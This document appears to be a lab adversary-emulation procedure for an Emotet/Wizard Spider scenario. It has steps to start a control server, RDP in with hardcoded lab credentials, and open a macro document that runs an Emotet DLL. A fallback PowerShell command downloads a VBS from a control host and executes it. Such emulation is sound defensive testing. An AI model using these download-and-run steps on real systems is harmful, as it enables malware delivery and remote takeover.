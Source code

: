 Start the control server from your terminator terminal.

```bash
cd ~/wizard_spider/Resources/control_server
sudo ./controlServer
```

Open a new terminal tab (ctrl-shift-T); double click the terminal tab and rename it to "RDP to Dorothy"

RDP into Dorothy / 10.0.0.7 as user Judy:

```
xfreerdp +clipboard /u:oz\\judy /p:"Passw0rd!" /v:10.0.0.7
```

1. Open outlook if its not already open, log in to Office account if not already logged in

2. Open the ChristmasCard.docm document on the desktop; enable macros when prompted.

3. You should see a terminal flash; wait for it to execute the Emotet DLL.

4. Go back to your control server tab; you should have a new callback.

5. Take a screenshot of your new session, and paste in the vendor slack channel.

```bash
# Emotet has sent Microsoft Word documents with embedded macros that will invoke scripts to download additional payloads. [6][13][2][8][12]
```
[Source Code - Dropper Word Document](Emotet_Dropper.)

[Source Code - Emotet DLL](Emotet.)


<br>

`For testing without MS Office; be aware that this is not identical to the Word document implementation - the process lineage and file paths change significantly with this method.`

Open PowerShell and run:

```
Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/adb.txt -OutFile $env:AppData\adb.vbs
```

```bash
# Wizard Spider has used HTTP for network communications.[5]

cscript.exe $env:AppData\adb.vbs
```

### :microscope: Cited Intelligence

* https://documents.trendmicro.com/assets/white_papers/ExploringEmotetsActivities_Final.pdf

* https://www.symantec.com/blogs/threat-intelligence/evolution-emotet-trojan-distributor

* https://www.picussecurity.com/blog/the-christmas-card-you-never-wanted-a-new-wave-of-emotet-is-back-to-wreak-havoc.html

* https://www.carbonblack.com/2019/04/24/cb-tau-threat-intelligence-notification-emotet-utilizing-wmi-to-launch-powershell-encoded-code/
